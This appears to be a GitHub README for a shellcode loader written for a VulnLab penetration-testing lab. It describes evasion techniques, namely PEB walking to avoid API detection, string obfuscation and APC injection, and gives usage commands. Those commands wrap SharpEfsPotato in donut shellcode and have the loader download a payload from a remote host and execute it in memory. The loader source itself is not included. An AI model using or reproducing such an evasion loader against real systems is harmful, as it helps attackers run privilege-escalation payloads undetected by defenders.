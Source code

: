 # IfritLoader
Shellcode loader that I created to use for VulnLab's Ifrit.

The detections channel on VulnLab is always full of alerts from Ifrit, and before starting the lab I knew that I wanted to get through it without any high alerts. The loader that I created for Shinra probably would be sufficient, but I wasn't very happy with it. I'm not very happy with this loader either, but I do think it's better in all aspects. The main inspiration came from @usmansikander13's peb walking article. When scanning the Shinra loader with capa I noticed that it was detecting the dynamic function resolutions from the download. Nothing is ever perfect, but I wanted those detections gone, and peb walking made them disappear. I also added compile time string obfuscation, and changed from the standard `((void(*)())execMem)();` to APC injection, which I think works a bit better.

The donut generator requires donut shellcode: https://github.com/TheWover/donut
```
pip install donut-shellcode
```
It should work with any shellcode though, not only donut.

## Usage: 
Create your payload
```
python donutGenerator.py -i SharpEfsPotato.exe -b 1 --args='-p calc.exe' -x "HelloWorld"
```
Host the file on a web server and use the loader to download into memory and execute
```
.\IfritLoader.exe /p:http://example.com/payload.bin /x:HelloWorld
```
Omit -x or /x: if not using XOR functionality.

## References:
https://systemweakness.com/peb-walk-avoid-api-calls-inspection-in-iat-by-analyst-and-bypass-static-detection-of-1a2ef9bd4c94

https://maldevacademy.com/
